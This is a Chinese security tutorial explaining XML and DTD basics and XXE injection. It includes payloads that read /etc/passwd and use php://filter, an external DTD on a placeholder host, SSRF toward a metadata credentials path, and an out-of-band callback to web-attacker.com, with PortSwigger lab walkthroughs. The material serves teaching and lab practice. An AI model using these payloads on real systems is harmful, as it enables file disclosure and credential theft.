# 外部实体注入深度刨析 - 先知社区

外部实体注入深度刨析

- - -

## 文章前言

本篇文章主要是填之前自己挖的外部实体注入的坑，在之前的知识梳理中只是对外部实体的注入检测、简易利用进行了记录，其中缺乏对防护绕过以及盲注利用、盲注绕过、拒绝服务、文件上传、XInclude 等利用手法的深入分析研究，本篇文章将在深入解读 XML 的核心内容的基础之上对上述的检测方式、利用手法、利用技巧、防御措施进行全方面的解读

## 基本定义

XML(可扩展标记语言) 是用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，它是一种允许用户对自己的标记语言进行定义的源语言，XML 文档结构包括 XML 声明、DTD 文档类型定义 (可选)、文档元素

## 文档结构

XML 文档结构包括 XML 声明、DTD 文档类型定义 (可选)、文档元素：

```plain
<!--XML 声明-->
<?xml version="1.0"?>

<!--文档类型定义-->
<!DOCTYPE note [                            <!--定义此文档是 note 类型的文档-->
<!ELEMENT note (to,from,heading,body)>      <!--定义 note 元素有四个元素-->
<!ELEMENT to (#PCDATA)>                     <!--定义 to 元素为"#PCDATA"类型-->
<!ELEMENT from (#PCDATA)>                   <!--定义 from 元素为"#PCDATA"类型-->
<!ELEMENT head (#PCDATA)>                   <!--定义 head 元素为"#PCDATA"类型-->
<!ELEMENT body (#PCDATA)>                   <!--定义 body 元素为"#PCDATA"类型-->
]>

<!--文档元素-->
<note>
    <to>Dave</to>
    <from>Tom</from>
    <head>Reminder</head>
    <body>You are a good man</body>
</note>
```

(1) XML 声明  
XML 声明是 XML 文档中的一个可选部分，用于指定 XML 版本和使用的字符编码，它位于 XML 文档的开头用于标识文档的类型和属性，XML 声明的一般格式如下：

```plain
<?xml version="1.0" encoding="字符编码"?>
```

其中 version 属性指定了所使用的 XML 版本，而 encoding 属性指定了字符编码：

-   version 属性：指定 XML 的版本号，常见的版本号包括"1.0"、"1.1"等，例如：version="1.0"表示使用 XML 1.0 版本
-   encoding 属性：指定 XML 文档的字符编码，字符编码用于将文本转换为字节序列以进行存储和传输，常见的字符编码包括 UTF-8、UTF-16、ISO-8859-1 等，例如:encoding="UTF-8"表示使用 UTF-8 字符编码

下面是一个示例 XML 声明，该声明指定了 XML 的版本为 1.0 并使用 UTF-8 字符编码：

```plain
<?xml version="1.0" encoding="UTF-8"?>
```

(2) DTD 文档类型定义 (可选)  
DTD(Document Type Definition) 是一种用于定义 XML 文档结构、元素和属性的模式定义语言，它定义了 XML 文档中允许出现的元素、元素之间的关系以及元素的属性，DTD 文档类型定义通常包含在 XML 文档的开头，位于 XML 声明之后，而在根元素之前，DTD 使用一组规则和声明来定义 XML 文档的结构和格式确保文档的有效性和一致性，DTD 可以定义以下内容：

-   元素声明：定义 XML 文档中允许出现的元素及其结构，它规定了元素的名称、出现次数 (可出现一次或多次)、是否可以为空等，例如：<!ELEMENT elementName (#PCDATA)>声明一个只包含文本内容的元素
-   属性声明：定义元素可以具有的属性及其类型，它规定了属性的名称、属性值的类型 (例如:CDATA、枚举等)、是否必需、默认值等，例如：<!ATTLIST elementName attributeName CDATA #IMPLIED> 声明一个可选的 CDATA 类型的属性
-   实体声明：定义在文档中引用的实体，可以是内部实体或外部实体，内部实体是在 DTD 内部定义的，而外部实体可以引用外部文件中的内容，实体可以用来定义可重用的文本片段或符号，例如：<!ENTITY entityName "entityValue"> 声明一个内部实体
-   注释：DTD 允许在定义中包含注释，用于提供对 DTD 的解释和说明

下面是一个简单的 DTD 示例，用于定义一个包含图书信息的 XML 文档：

```plain
<!DOCTYPE bookstore [
  <!ELEMENT bookstore (book+)>
  <!ELEMENT book (title, author, price)>
  <!ELEMENT title (#PCDATA)>
  <!ELEMENT author (#PCDATA)>
  <!ELEMENT price (#PCDATA)>
  <!ATTLIST book id CDATA #IMPLIED>
]>
<bookstore>
  <book id="1">
    <title>Introduction to XML</title>
    <author>John Doe</author>
    <price>29.99</price>
  </book>
  <book id="2">
    <title>Advanced XML Techniques</title>
    <author>Jane Smith</author>
    <price>39.99</price>
  </book>
</bookstore>
```

在上述示例中我们定义了一个名为 bookstore 的根元素，它包含一个或多个 book 元素，每个 book 元素都包含一个 title 元素、一个 author 元素和一个 price 元素，book 元素还具有一个可选的 id 属性：

-   <!DOCTYPE bookstore \[...\]>：DTD 的声明部分，它定义了 XML 文档的文档类型为 bookstore 并包含了 DTD 的规则和声明
-   <!ELEMENT bookstore (book+)>：定义了 bookstore 元素，它包含一个或多个 book 元素
-   <!ELEMENT book (title, author, price)>：定义了 book 元素，它包含一个 title 元素、一个 author 元素和一个 price 元素
-   <!ELEMENT title (#PCDATA)>：定义了 title 元素，它包含文本内容
-   <!ELEMENT author (#PCDATA)>：定义了 author 元素，它也包含文本内容
-   <!ELEMENT price (#PCDATA)>：定义了 price 元素，同样包含文本内容
-   <!ATTLIST book id CDATA #IMPLIED>：定义了 book 元素的 id 属性，类型为 CDATA，是可选的

在 XML 文档的内容中我们使用了上述定义的元素和属性来表示两本书的信息，通过 DTD 我们可以验证 XML 文档是否符合定义的结构和规则，例如：bookstore 元素必须包含一个或多个 book 元素，每个 book 元素必须包含 title、author 和 price 元素，如果 XML 文档不符合这些规则，将被视为无效  
(3) 文档元素  
在 XML 中文档元素是 XML 文档的根元素，它是 XML 文档中所有其他元素的父元素，每个 XML 文档只能有一个根元素，所有其他元素都是它的子元素或后代元素，文档元素是 XML 文档的顶层元素，它定义了整个文档的结构和内容，它可以包含其他元素、文本和属性，文档元素通常代表文档的主题或内容的类别，以下的示例 XML 文档展示了一个包含学生信息的文档元素

```plain
<students>
  <student id="1">
    <name>John Doe</name>
    <age>20</age>
    <major>Computer Science</major>
  </student>
  <student id="2">
    <name>Jane Smith</name>
    <age>22</age>
    <major>Mathematics</major>
  </student>
</students>
```

在上述示例中 students 元素是文档元素，它是根元素，它包含了两个 student 元素，每个 student 元素代表一个学生的信息，每个 student 元素又包含了 name、age 和 major 元素，分别表示学生的姓名、年龄和专业，student 元素还具有一个 id 属性，用于唯一标识每个学生

## 实体声明

在 XML 中实体声明用于定义在文档中引用的实体，可以是内部实体或外部实体，实体可以用来表示可重用的文本片段、符号或特殊字符，实体声明使用 DTD 或者 XML Schema 进行定义

### 内部实体声明

内部实体声明的基本格式如下：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE 根元素名 [DTD 规则]>

<根元素>
  <!-- 元素和数据内容 -->
</根元素>
```

上述格式中标签元素解释如下：

-   <?xml version="1.0" encoding="UTF-8"?>\`：XML 文档的声明，指定 XML 版本和字符编码
-   <!DOCTYPE 根元素名 \[DTD 规则\]>：这是 DTD 的内部声明，其中包含根元素的名称和 DTD 规则的定义
-   <根元素>：这是 XML 文档的根元素，它包含 DTD 规则所定义的其他元素和数据内容

下面我们考虑一个简单的 XML 文档，描述了一本书的信息，包括标题、作者和出版年份，下面是一个使用内部声明 DTD 的示例：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE book [
  <!ELEMENT book (title, author, year)>
  <!ELEMENT title (#PCDATA)>
  <!ELEMENT author (#PCDATA)>
  <!ELEMENT year (#PCDATA)>
]>
<book>
  <title>Harry Potter and the Philosopher's Stone</title>
  <author>J.K. Rowling</author>
  <year>1997</year>
</book>
```

在这个示例中<!DOCTYPE>元素内部的 DTD 定义了 book 元素及其子元素 title、author 和 year 的规则，具体规则如下：

-   <!ELEMENT book (title, author, year)>：定义了 book 元素必须包含 title、author 和 year 子元素
-   <!ELEMENT title (#PCDATA)>：定义了 title 元素只能包含文本数据 (#PCDATA)
-   <!ELEMENT author (#PCDATA)>：定义了 author 元素只能包含文本数据 (#PCDATA）
-   <!ELEMENT year (#PCDATA)>：定义了 year 元素只能包含文本数据 (#PCDATA)

### 外部实体声明

XML 外部声明 DTD 是将 DTD 规范保存在一个独立的文件中并在 XML 文档中通过引用该文件来使用，这种方式可以使多个文档 XML 共享同一个 DTD，避免规范重复定义和管理的问题，XML 中对数据的引用称为实体，实体中有一类叫外部实体，用来引入外部资源，有 SYSTEM 和 PUBLIC 两个关键字，表示实体来自本地计算机还是公共计算机  
(1) 公共 (Public)DTD 声明  
公共 DTD 声明使用公共标识符 (Public Identifier) 来引用 DTD 文件，格式如下：

```plain
<!DOCTYPE 根元素名 PUBLIC "公共标识符" "DTD 文件路径">
```

在下面示例中 bookstore.dtd 是包含 DTD 规范的文件并且公共标识符为-//W3C//DTD Bookstore//EN，XML解析器将通过公共标识符来查找并加载相应的DTD文件

```plain
<!DOCTYPE bookstore PUBLIC "-//W3C//DTD Bookstore//EN" "bookstore.dtd">
```

(2) 系统 (System)DTD 声明  
系统 DTD 使用系统标识符 (System Identifier) 来引用 DTD 文件，格式如下所示：

```plain
<!DOCTYPE 根元素名 SYSTEM "DTD 文件路径">
```

在下述示例中 bookstore.dtd 是包含 DTD 规范的文件并且通过系统标识符直接指定了 DTD 文件的路径，XML 解析器将根据路径找到并加载相应的 DTD 文件

```plain
<!DOCTYPE bookstore SYSTEM "bookstore.dtd">
```

下面是一个包含 DTD 外部声明的 XML 示例：

```plain
<!DOCTYPE bookstore SYSTEM "http://example.com/bookstore.dtd">
<bookstore>
  <book>
    <title>XML Basics</title>
    <author>John Doe</author>
    <price>19.99</price>
  </book>
  <book>
    <title>Advanced XML</title>
    <author>Jane Smith</author>
    <price>24.99</price>
  </book>
</bookstore>
```

上述示例中 bookstore 元素的 DTD 外部声明指向名为 bookstore.dtd 的 DTD 文件，下面是一个简易的 bookstore.dtd 文件示例：

```plain
<!ELEMENT bookstore (book+)>
<!ELEMENT book (title, author, price)>
<!ELEMENT title (#PCDATA)>
<!ELEMENT author (#PCDATA)>
<!ELEMENT price (#PCDATA)>
<!ATTLIST book id CDATA #IMPLIED>
```

### 外部实体扩展

外部实体的引用可以借助各种协议，下面是几种比较常见的协议：

```plain
file:///path/to/file.ext
http://url
php://filter/read=convert.base64-encode/resource=conf.php
```

外部引用可支持 http，file 等协议，不同的语言支持的协议不同，但存在一些通用的协议，具体内容如下表所示：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123123549-e1ea1300-b9a8-1.png)  
示例代码如下所示，而写法则调用了本地计算机的文件/etc/passwd，XML 内容被解析后文件内容便通过&xxe 被存放在了 methodname 元素中，造成敏感信息泄露

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
<!ELEMENT methodname ANY >
<!ENTITY xxe(实体引用名) SYSTEM "file:///etc/passwd"(实体内容) >]>

<methodcall>
    <methodname>&xxe;</methodname>
</methodcall>
```

### 参数实体声明

在 XML 中参数实体声明 (Parameter Entity Declaration) 用于定义在 DTD(Document Type Definition) 中引用的实体，参数实体通常用于定义重复使用的 DTD 片段以便在多个地方进行引用和扩展，参数实体声明使用 DTD 语法进行定义，以下是参数实体声明的格式

```plain
<!ENTITY % entityName "entityValue">
```

相关参数说明如下：

-   % entityName：表示参数实体的名称，以"%"开头
-   "entityValue"：表示参数实体的值，可以是 DTD 片段或其他实体引用

参数实体与普通实体的区别在于参数实体的值可以是 DTD 片段，而普通实体的值只能是文本或特殊字符序列，参数实体声明提供了一种在 DTD 中定义可重用的 DTD 片段的方式，使得可以在 DTD 的多个地方引用该片段，下面是一个示例，展示了如何定义和使用参数实体

```plain
<!ENTITY % myContent "<element>Some content</element>">
<!ELEMENT root (%myContent;)>
```

在上述示例中我们定义了一个名为 myContent 的参数实体，它的值是<element>Some content</element>，然后在 root 元素的声明中我们使用%myContent;来引用该参数实体，参数实体的主要优点是可以简化 DTD 的定义和维护，通过定义和引用参数实体，可以在 DTD 中重复使用 DTD 片段，从而减少冗余和提高可维护性，此外参数实体还可以在 DTD 的不同部分进行扩展或修改以满足特定需求，而无需修改每个引用的地方，下面是一个结合了参数实体声明和引用的示例：

```plain
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>

<foo>&evil;</foo>
```

外部 evil.dtd 中的内容：

```plain
<!ENTITY evil SYSTEM "file:///c:/windows/win.ini" >
```

文档解释说明：

-   <!DOCTYPE foo \[...\]>：这是 XML 文档的文档类型声明 (Document Type Declaration)，指定该文档遵循的 DTD 规则，在这里 foo 是文档类型的名称
-   <!ELEMENT foo ANY>：这是 DTD 中的元素声明，定义了元素 foo 的内容模型，在这里 foo 元素允许包含任何内容
-   <!ENTITY % xxe SYSTEM "[http://xxx.xxx.xxx/evil.dtd">：这是一个参数实体声明，定义了一个名为xxe的参数实体，其值是指向位于](http://xxx.xxx.xxx/evil.dtd) "[http://xxx.xxx.xxx/evil.dtd"的外部DTD文件的URI，这个DTD文件可能包含一些恶意的内容](http://xxx.xxx.xxx/evil.dtd)
-   %xxe;：这是一个参数实体引用，用于在 DTD 中插入参数实体的值，在这里它将被替换为指向外部 DTD 文件的 URI
-   <foo>：这是 XML 文档中的一个元素，它与之前定义的 foo 元素相对应</foo>
-   &evil;：这是一个实体引用，引用了名为 evil 的实体，根据之前的定义，evil 实体的值将被替换为外部 DTD 文件的 URI

### 内外实体声明

内外部 DTD 结合使用的格式如下所示：

```plain
<!DOCTYPE 根元素 SYSTEM "DTD 文件路径" [定义内容]>
```

下面是一个 XML 示例，演示了内部实体和外部实体的混合使用

```plain
<!DOCTYPE example [
  <!ENTITY author "John Doe">
  <!ENTITY company SYSTEM "company.txt">
]>
<book>
  <title>XML Basics</title>
  <author>&author;</author>
  <publisher>&company;</publisher>
</book>
```

在上述示例中我们定义了一个包含内部实体和外部实体的 DTD 外部声明，DTD 外部声明位于 DOCTYPE 标记中的 example 部分

-   内部实体定义：<!ENTITY author "John Doe">定义了一个名为 author 的内部实体，其值为"John Doe"
-   外部实体定义：<!ENTITY company SYSTEM "company.txt"> 定义了一个名为 company 的外部实体，它从位于"company.txt"文件中的内容中获取值

在 XML 文档的内容中，我们使用了这些实体：

-   <author>&author;</author>：使用&author; 引用了内部实体 author，将其替换为"John Doe"
-   <publisher>&company;</publisher>：使用&company;引用了外部实体 company，将其替换为"company.txt"文件中的内容

### 实体引用方法

实体由三部分构成：&符号、实体名称、分号 (;)，这里&不论在 GET 还是在 POST 中都需要进行 URL 编码，因为是使用参数传入 XML 的，&符号会被认为是参数间的连接符号，示例：

```plain
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY xxe "Thinking">]>

<foo>&xxe;</foo>
```

## 实体注入

XML 实体关键字'SYSTEM'会令 XML 解析器从 URI 中读取内容并允许它在 XML 文档中被替换，因此攻击者可以通过实体将他自定义的值发送给应用程序，然后让应用程序去呈现，简单来说就是攻击者强制 XML 解析器去访问攻击者指定的资源内容 (可能是系统上本地文件亦或是远程系统上的文件)，比如下面的代码将获取系统上 folder/file 的内容并呈献给用户  
Code1:

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd SYSTEM "file:///etc/passwd">]>

<foo>
     <value>&passwd;</value>
</foo>
```

Code2:

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE b [<!ENTITY entityex SYSTEM "file:///folder/file">]>

<foo>
     <value>&entityex;</value>
</foo>
```

Code3:

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php" >
]>

<root>
    <name>&xxe;</name>
</root>
```

这里以 Code1 代码为例，XML 外部实体 passwd 被赋予的值为 file:///etc/passwd，在解析 XML 文档的过程中实体 passwd 的值会被替换为 URI(file:///etc/passwd) 内容值 (也就是 passwd 文件的内容)，关键字"SYSTEM"会告诉 XML 解析器 passwd 实体的值将从其后的 URI 中读取，从而导致文件读取并造成信息泄露

## 注入检测

Step 1：检测 XML 是否会被成功解析，如果页面输出 my name is nMask，则说明 xml 文件可以被解析

```plain
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE ANY [ 
<!ENTITY name "my name is nMask">]>

<root>&name;</root>
```

Step 2：检测服务器是否支持 DTD 引用外部实体，可以通过查看自己服务器上的日志来判断，看目标服务器是否向你的服务器发了一条请求 index.html 的请求

```plain
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE ANY [ 
<!ENTITY % name SYSTEM "http://localhost/index.html"> 
%name; 
]>
```

## 注入案例

### 利用 XXE 检索文件

#### 基本介绍

从服务器文件系统中检索任意文件的 XXE 注入攻击需要以两种方式修改提交的 XML

-   引入 DOCTYPE 元素，该元素定义包含文件路径的外部实体
-   编辑应用程序响应中返回的 XML 中的数据值以利用已定义的外部实体

例如：假设一个购物应用程序通过向服务器提交以下 XML 来检查产品的库存水平

```plain
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

由于应用程序对 XXE 攻击没有执行特定的防御，因此您可以利用 XXE 漏洞通过提交以下 XXE 负载来检索/etc/passwd 文件：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

上述 XXE 有效载荷定义了一个外部实体&XXE;其值是/etc/passwd 文件的内容并使用 productId 值中的实体，这会导致应用程序的响应包括文件的内容：

```plain
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

#### 简易案例

对于现实世界中的 XXE 漏洞提交的 XML 中通常会有大量数据值，其中任何一个都可能在应用程序的响应中使用，为了系统地测试 XXE 漏洞，您通常需要单独测试 XML 中的每个数据节点，方法是使用您定义的实体并查看它是否出现在响应中  
靶场地址：[https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)  
测试步骤：  
随机打开一个应用  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123130304-b09dd9f4-b9ac-1.png)

点击下方的"Check stock"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123130316-b818a25e-b9ac-1.png)  
此时我们在 burpsuite 中捕获到的请求如下所示：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123130547-12013650-b9ad-1.png)  
随后更改请求数据包构造 XXE 攻击载荷读取/etc/passwd 文件

```plain
POST /product/stock HTTP/1.1
Host: 0a0700fe0358be4480ed6cc800d8007f.web-security-academy.net
Connection: close
Content-Length: 176
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a0700fe0358be4480ed6cc800d8007f.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a0700fe0358be4480ed6cc800d8007f.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=nKOc1GfbLdg5XX18iyjTCDqml2aKmoEN

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123130620-259765d6-b9ad-1.png)

### XXE 进行 SSRF 攻击 (思路)

#### 基本介绍

XXE 攻击的另一个主要影响是它们可用于执行服务器端请求伪造 (SSRF)，这是一个潜在的严重漏洞，服务器端应用程序可能会被诱导向服务器可以访问的任何 URL 发出 HTTP 请求，要利用 XXE 漏洞执行 SSRF 攻击，您需要使用要针对的 URL 定义一个外部 XML 实体并在数据值中使用定义的实体，如果您可以在应用程序响应中返回的数据值中使用定义的实体，那么您将能够从应用程序响应内的 URL 查看响应，从而获得与后端系统的双向交互，如果没有，那么你将只能执行盲 SSRF 攻击

#### 简易案例

在以下 XXE 示例中外部实体将导致服务器向组织基础结构内的内部系统发出后端 HTTP 请求：

```plain
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

靶场地址：[https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)  
演示步骤：  
访问站点并选择任意商品  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123130730-4f4b7200-b9ad-1.png)  
查看其库存信息  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123130743-574633b4-b9ad-1.png)  
请求数据包如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123130803-62d2972c-b9ad-1.png)  
在 XML 声明和 stockCheck 元素之间插入以下外部实体定义进行请求的改造，同时将 productId 编号替换为对外部实体的引用&xxe;，响应应包含"无效的产品 ID:"，然后是来自元数据终结点的响应，该响应最初是文件夹名称  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123130859-848e5220-b9ad-1.png)  
反复更新 DTD 中的 URL 以浏览 API，直到您访问/latest/meta-data/iam/security-credentials/admin，这应该返回包含 SecretAccessKey 的 JSON  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123130926-9489b64c-b9ad-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123130939-9c2225f6-b9ad-1.png)

### Blind XXE 注入漏洞

XXE 漏洞的许多实例都是盲注类型的，这意味着应用程序不会在其响应中返回任何定义的外部实体的值，因此无法直接检索服务器端文件，但是盲注类型的 XXE 漏洞仍然可以被检测和利用，只不过需要更先进的技术，您有时可以使用"数据外带"技术来发现漏洞并利用它们来泄露数据，有时您可能会触发 XML 解析错误从而导致错误消息中的敏感数据泄露

#### 基本介绍

当应用程序易受 XXE 注入的攻击，但在其响应中不返回任何定义的外部实体的值时，就会出现盲注类型的 XXE 漏洞，这意味着直接检索服务器端文件是不可能的，因此盲注类型的 XXE 通常比常规 XXE 漏洞更难利用，有两种广泛的方法可以发现并利用 XXE 盲漏洞

-   您可以触发 XML 解析错误，使错误消息包含敏感数据
-   您可以触发带外网络交互，有时会过滤交互数据中的敏感数据

#### 外带技术

您通常可以使用与 XXE SSRF 攻击相同的技术来检测盲注类型的 XXE，但会触发与您控制的系统的带外网络交互，例如：您可以定义一个外部实体，如下所示：

```plain
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

然后您将在 XML 中的数据值中使用定义的实体，此 XXE 攻击导致服务器对指定的 URL 发出后端 HTTP 请求，攻击者监视由此产生的 DNS 查找和 HTTP 请求，从而检测 XXE 攻击是否成功

#### 数据外带

靶场名称：Blind XXE with out-of-band interaction  
靶场地址：[https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)  
靶场演示：

